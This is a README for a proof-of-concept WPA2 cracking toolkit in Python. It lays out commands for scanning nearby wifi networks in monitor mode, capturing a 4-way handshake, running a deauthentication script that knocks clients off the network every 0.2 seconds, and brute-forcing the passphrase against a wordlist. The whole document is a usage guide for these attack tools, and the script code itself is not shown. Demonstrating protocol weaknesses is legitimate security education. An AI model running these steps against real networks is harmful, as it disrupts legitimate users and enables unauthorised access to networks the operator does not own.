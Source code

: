 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Installation
  ```python
  pip3 install -r requirements.txt
  ```
  
## Usage
  We should first run wifi-scan.py to discover wifi network around us.
  The interface needs to be in monitor mode.
  ```python
  python3 wifi-scan.py --interface wlan0
  ```
  
  SSID name, BSSID and channel should be displayed for every wifi network
  We are now ready to capture the 4-Way handshake for a choosen network
  ```python
  python3 wifi-capture-handshake.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx --channel 1
  ```
  The script is now waiting for an authentication to happen, we can use the wifi-deauth.py script to hurry it
  The script will send deauthencation packets every 0.2 seconds to make an authentication happen
  example:
  ```python
  python3 wifi-deauth.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the wpa-handshake we are ready to start cracking the password
  ```python
  python3 wifi-crack.py --ssid name --wordlist wordlist.txt --pcap pcapfile.pcap
  ```
  We need to be sure to enter the good ssid, because no check is made so the script will never found the password
  
  If the password is in the wordlist, it will be found and displayed to screen.
  
  
